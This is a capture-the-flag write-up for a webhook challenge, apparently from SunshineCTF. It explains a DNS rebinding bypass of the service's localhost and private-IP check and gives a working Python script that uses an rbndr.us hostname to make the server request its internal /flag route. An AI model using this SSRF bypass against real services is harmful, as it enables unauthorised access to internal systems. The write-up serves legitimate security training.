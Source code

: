 ## Name
Intergalactic Webhook Service 
### Problem Description
I got tired of creating webhooks from online sites, so I made my own webhook service! It even works in outer space! Be sure to check it out and let me know what you think. I'm sure it is the most secure webhook service in the universe.
### Solution
The solution to the challenge is a DNS rebinding attack.

The source code was provided, so I started looking through it. There are three main routes, the /register and /trigger routes and a /flag route which is hosted on a different port.

The /register route allows you to register a url. It will return a webhook id which can be used to trigger the webhook.
The /trigger route sends a post request to the registered url.

So you want to register a url which resolves to localhost, so that when the /trigger route is called, it will send a post request to the /flag route.

The problem is that the /register and /trigger routes are checking if the url would not resolve to localhost or is a private ip address.

So I need to find a way to bypass this check by using a url which would resolve to localhost or to a public ip address. 

I found a service on the internet https://lock.cmpxchg8b.com/rebinder.html which allows you to create a dns rebinding url. The url would resolve either to a public ip address or to localhost depending with a random probability.

The code I used to solve the challenge is as follows:

```python
import requests, time

BASE = "https://supernova.sunshinectf.games/"
RBNDR_HOST = "7f000001.a83f8110.rbndr.us"

while True:
    r = requests.post(BASE + "/register",
                      data={"url": f"http://{RBNDR_HOST}:5001/flag"})
    print("register:", r.status_code, r.text)
    if r.status_code == 200:
        wid = r.json()["id"]
        break
    time.sleep(0.5)

t = requests.post(BASE + "/trigger", data={"id": wid})
print("trigger:", t.text)
```